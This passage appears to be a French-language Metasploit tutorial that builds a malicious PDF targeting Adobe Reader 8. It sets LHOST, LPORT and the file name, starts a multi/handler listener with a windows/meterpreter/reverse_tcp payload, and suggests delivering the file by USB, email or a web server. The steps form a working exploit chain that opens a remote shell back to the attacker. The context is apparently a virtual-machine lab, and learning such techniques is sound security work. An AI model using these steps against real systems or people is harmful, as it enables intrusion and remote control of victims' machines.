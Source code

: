 Vous devriez avoir quelque chose comme cela, peut être qu’une adresse par défaut ou qu’un port par défaut à été renseigné pour LHOST et LPORT.
Nous allons configurer ce payload. Il faut commencer par renseigner les valeurs de LHOST et LPORT.
Pour cela tapez ```set LHOST x.x.x.x``` en remplaçant les x par les valeurs de l’adresse ip de votre machine. Puis tapez ```set LPORT xxx``` en remplaçant xxx par le port de votre choix (par exemple, ```set LPORT 4444```).
vous pouvez refaire un show options, vous devriez voir que les options ont été prises en compte.
Vous pouvez ensuite modifier le nom de votre fichier pdf en tapant ```set FILENAME xxxx.pdf``` en remplaçant xxxx par le nom que vous voulez donner.

Quand tout est prêt, tapez exploit. Vous verrez ensuite que votre fichier a été créé et la console vous indique à la dernière ligne le chemin d’accès à ce fichier.

### ÉTAPE 2 : Activer le listener
Pour activer le listener, il vous faudra taper la commande ```use exploit/multi/handler```
puis ```set payload windows/meterpreter/reverse_tcp```
De même que précédemment, il vous faut renseigner LHOST et LPORT. Quand cela est fait, tapez exploit.

### ÉTAPE 3 : Envoyer le fichier
Vous pouvez envoyer le fichier de toutes les manières possibles : par usb, par mail, en le mettant en ligne en ayant démarré un serveur apache,... et tout autre technique imaginable.

### ÉTAPE 4 : Ouvrir le fichier
Le fichier est bien téléchargé sur la machine virtuelle.
Avant de l’ouvrir, vérifiez bien que le listener est lancé. Vous devez voir cela : 

![image listener](./images/listener.png)

avec votre adresse et votre port que vous avez renseigné.

Si tout est prêt, ouvrez le pdf avec adobe reader 8 ! 
